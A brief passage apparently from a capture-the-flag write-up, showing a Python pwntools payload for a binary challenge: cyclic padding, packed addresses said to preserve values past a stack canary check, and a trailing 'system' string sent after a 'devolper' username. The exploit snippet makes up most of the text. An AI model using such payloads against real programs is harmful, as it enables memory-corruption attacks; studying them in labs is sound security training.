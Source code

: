 <figure><img src="../../.gitbook/assets/image (64).png" alt="" width="509"><figcaption></figcaption></figure>

and now our payload

```python
    io.sendlineafter(b'Username:', b'devolper')
    payload = cyclic(44)
    payload += flat([
            0x400b0c,       # preserve `rip` to bypass canary check
            p32(0x1) * 5,   # random val for fuzz
            0x4aa330,       # preserve some value
            p32(0x4aa330),  # preserve some value
            0x4721c8,       # preserve some value
            p32(0x3) * 2,   # random val for fuzz
            0x400b0c,       # preserve some value
    ]) 
    payload +=  cyclic(204)
    payload += b'system\x00'
    sleep(0.2)
    io.sendline(payload)
```
